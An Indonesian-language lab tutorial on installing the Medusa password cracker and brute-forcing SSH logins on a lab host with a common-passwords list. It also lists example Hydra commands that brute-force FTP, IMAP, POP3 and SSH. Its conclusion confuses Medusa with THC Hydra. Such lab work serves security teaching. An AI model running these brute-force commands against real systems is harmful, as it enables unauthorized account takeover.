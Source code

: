 ## INSTALASI MEDUSA

* **Step 1**    : Download package medusa dari [foofus.net/goons/jmk/medusa/medusa.html](http://foofus.net/goons/jmk/medusa/medusa.html)

  ```
  wget http://www.foofus.net/jmk/tools/medusa-2.2.tar.gz
  ```

* **Step 2**    : Untuk menkonfigurasi, compile dan menginstall Medusa, ketik kode berikut di terminal:

  ```
  tar -zxvf medusa-2.2.tar.gz
  cd medusa-2.2
  ./configure
  make
  make install
  ```

## DEPENDENCY

* OpenSSL
* LibSSH2
* NCPFS
* LibPQ
* Subversion
* afpfs-ng

Jika bekum memiliki dependency terebut maka medusa tidak dapat dijalankan, berikut command install seluruh dependency :

```
sudo add-apt-repository "deb http://archive.ubuntu.com/ubuntu/ wheezy universe multiverse"

sudo apt-get update

sudo apt-get install build-essential make patch subversion openssl libssl-dev libncp-dev libpq-dev libgcrypt11-dev libgnutls-dev libsvn-dev zlib1g-dev libssh2-1-dev libnl-dev gettext autoconf tcl8.5 libpcap0.8-dev python-scapy python-dev cracklib-runtime macchanger-gtk tshark ethtool
```

## UJI COBA

**Contoh**:

```
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

Pertama, Siapkan file yang terdiri dari kumpulan password yang dipisahkan oleh baris atau download [disini](/assets/ncrack-hydra/500-worst-passwords.txt). Pada uji coba kali ini, kita akan mencoba melakukan _brute force attack_ pada protokol SSH ke ip address `192.168.56.202` dengan asumsi username `root` dan list password menggunakan file yang telah disiapkan, jalankan perintah dibawah ini pada terminal :

```
medusa -u root -P 500-worst-passwords.txt -h 192.168.56.202 ssh
```

![](/assets/ncrack-hydra/hydra-gagal.png)  
Uji Coba gagal karena password yang digunakan tidak berada dalam file [500-worst-passwords.txt](/assets/ncrack-hydra/500-worst-passwords.txt), tambahkan password yang digunakan dengan cara:

```
echo "kucinglucu" >> 500-worst-passwords.txt
```

![](/assets/ncrack-hydra/hydra-sukses.png)

## KESIMPULAN

Dengan uji coba yang telah dilakukan, THC Hydra dapat berhasil menyerang protokol ssh dengan _brute force attack_ jika password dari target terdapat didalam file password yang dibuat oleh penyerang dengan waktu 2 menit. Jika password tidak terdapat dalam file, maka serangan akan gagal.

